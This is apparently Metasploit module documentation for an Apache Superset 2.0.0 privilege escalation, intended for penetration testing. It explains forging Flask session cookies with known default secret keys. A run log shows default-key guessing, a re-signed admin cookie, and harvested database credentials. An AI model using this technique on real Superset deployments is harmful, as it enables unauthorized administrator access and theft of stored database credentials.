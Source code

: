 
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

### App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'Public' as the role.

If you want any database credentials to be pulled, you'll need to configure a database as well.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.

### ADMIN_ID

The ID of an admin account. Defaults to `1`

### SECRET_KEYS_FILE

A file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/superset_secret_keys.txt`

## Scenarios

### Superset 2.0.0 Docker image

```
msf > use auxiliary/gather/apache_superset_cookie_sig_priv_esc 
msf auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEi.ZP8uyQ.iBpplhnMpXOZnjiV1Xh_reR_uLw
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiOTM0MGZmYjhkNzgzYjg1Y2JjOWY1ZDA4Yzg1NzBkNTNkZWFkMzBmMSIsImxvY2FsZSI6ImVuIn0.ZP8uyQ.jHXs3u8dqoBUWeL1vjUTxXOWLAo;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY;
.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY
[*] 127.0.0.1:8088 - Checking secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[-] 127.0.0.1:8088 - Incorrect Secret Key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[*] 127.0.0.1:8088 - Checking secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - Modified cookie: {"_flashes"=>[{" t"=>["warning", "Invalid login. Please try again."]}], "_fresh"=>false, "csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en", "user_id"=>1}
[*] 127.0.0.1:8088 - Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIkludmFsaWQgbG9naW4uIFBsZWFzZSB0cnkgYWdhaW4uIl19XSwiX2ZyZXNoIjpmYWxzZSwiY3NyZl90b2tlbiI6IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZP8uyQ.7Rgp9a7iPK-m7NQRbWpixG62CMo
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found Super Secret DB: postgresql://dbuser:mysecretpassword@1.1.1.1:15432/supersetdb
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```
